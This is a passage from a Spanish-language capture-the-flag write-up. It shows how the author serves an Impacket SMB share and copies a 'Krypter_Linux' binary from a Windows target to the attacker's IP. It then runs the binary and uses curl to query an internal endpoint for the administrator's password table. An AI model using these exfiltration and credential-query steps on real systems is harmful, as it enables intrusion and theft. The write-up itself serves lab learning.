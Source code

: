 Nos compartimos una carpeta con `SMB`, la llamaré `smbFolder`:

```bash
❭ python3 smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Y ahora en la máquina Windows, le indicamos que nos copie ese binario a través de una carpeta compartida en la red:

```powershell
PS C:\Development> copy .\Krypter_Linux \\10.10.14.194\smbFolder\Krypter_Linux
```

Recibimos info en nuestro servidor de la conexión entrante y ya tendríamos el binario:

```bash
❭ file Krypter_Linux 
Krypter_Linux: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ab1fa8d6929805501e1793c8b4ddec5c127c6a12, for GNU/Linux 3.2.0, not stripped
```

```bash
❭ ./Krypter_Linux 
Krypter V1.2

New project by Juliette.
New features added weekly!
What to expect next update:
        - Windows version with GUI support
        - Get password from cloud and AUTOMATICALLY decrypt!
***

No key supplied.
USAGE:

Krypter <key>
```

...

Podemos apoyarnos de `cURL` e intentar visitar el recurso al cual se esta llamando en el binario:

```powershell
PS C:\Development> curl "http://passmanager.htb:1234/index.php?method=select&username=administrator&table=passwords"
curl : The remote name could not be resolved: 'passmanager.htb'
...
```
